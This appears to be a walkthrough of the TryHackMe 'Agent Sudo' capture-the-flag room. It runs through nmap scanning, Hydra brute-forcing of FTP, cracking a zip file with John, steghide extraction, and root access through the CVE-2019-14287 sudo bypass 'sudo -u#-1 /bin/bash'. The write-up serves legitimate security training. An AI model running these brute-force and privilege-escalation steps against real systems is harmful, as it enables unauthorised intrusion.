 # [Agent Sudo](https://tryhackme.com/room/agentsudoctf)

## You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

# Enumerate

## Enumerate the machine and get all the important information

### How many open ports?

1. First, let's scan for open ports using Nmap to identify potential entry points
   - Running a basic Nmap scan reveals **3** open ports on the target system

```bash
nmap IP
```

[SCREEN01]

### How you redirect yourself to a secret page?

1. When visiting the web server at `http://IP:80`, we find a message that provides a hint
   - The welcome page indicates we need to change our **user-agent** to access the secret page

[SCREEN03]

### What is the agent name?

1. Based on the hint that it's agent "C", we can modify our HTTP request with the appropriate user-agent
   - Using curl with a custom user-agent "C" reveals the agent's name is **chris**

```bash
curl -A "C" -L http://IP//
```

- `-A`: flag sets the user-agent
- `-L`: flag follows redirects

[SCREEN02]

# Hash cracking and brute-force

## Done enumerate the machine? Time to brute your way out.

### FTP password

1. Since we discovered the username "chris", we can attempt to brute force the FTP service using Hydra

```bash
hydra -l chris -P /root/Tools/wordlists/rockyou.txt ftp://IP
```

[SCREEN04]

### Zip file password

1. After successfully gaining FTP access, we download all available files for analysis

```bash
ftp IP
# Enter username: chris
# Enter password: [discovered password]

ls -la
get To_agentJ.txt cutie-alien.jpg cutie.png
```

[SCREEN05]

2. Examining the `To_agentJ.txt` file reveals we need to extract hidden data from the images
   - First, we use binwalk to check for embedded files in the PNG image

```bash
binwalk -e cutie.png
```

3. Next, we need to crack the password of the extracted zip file:

```bash
zip2john 8702.zip > hash.txt
john hash.txt
```

[SCREEN06]

### steg password

1. Inside the extracted `8702.zip` file, we find a file containing the Base64 encoded string **QXJlYTUx**
   - Decoding this string gives us "Area51", which is the steganography password for the other image

[SCREEN07]

### Who is other agent (in full name)?

### SSH password

1. Using the password "Area51", we can extract hidden data from the second image using steghide

```bash
steghide extract -sf cute-alien.jpg
# Enter passphrase: Area51
```

[SCREEN08]

2. The extracted `message.txt` contains the full name of the other agent (**James**) and his SSH password

[SCREEN09]

# Capture the user flag

## You know the drill

### What is the user flag?

1. Login to the target machine using the discovered SSH credentials

```bash
ssh james@IP
# Enter password: [discovered password]

ls
cat user_flag.txt
```

[SCREEN10]

### What is the incident of the photo called?

1. Transfer file to our local machine for analysis

```bash
scp james@10.10.102.224:Alien_autospy.jpg .
```

2. After examining the image and researching online, we identify the incident as the famous **Roswell alien autopsy**

[SCREEN11]

# Privilege escalation

## Enough with the extraordinary stuff? Time to get real

### CVE number for the escalation

1. First, we check what sudo privileges James has on the system

```bash
sudo -l
```

[SCREEN12]

2. The output shows James can run `/bin/bash` as anyone except root

   - Researching this pattern on Google with "sudo ALL, !root exploit db" leads us to [CVE-2019-14287](https://www.exploit-db.com/exploits/47502)

3. Exploiting the vulnerability using the documented technique

```bash
sudo -u#-1 /bin/bash
```

### What is the root flag?

### Who is Agent R?

1. The `root.txt` file contains both the flag and reveals Agent R name

```bash
cd /root
cat root.txt
```

[SCREEN13]
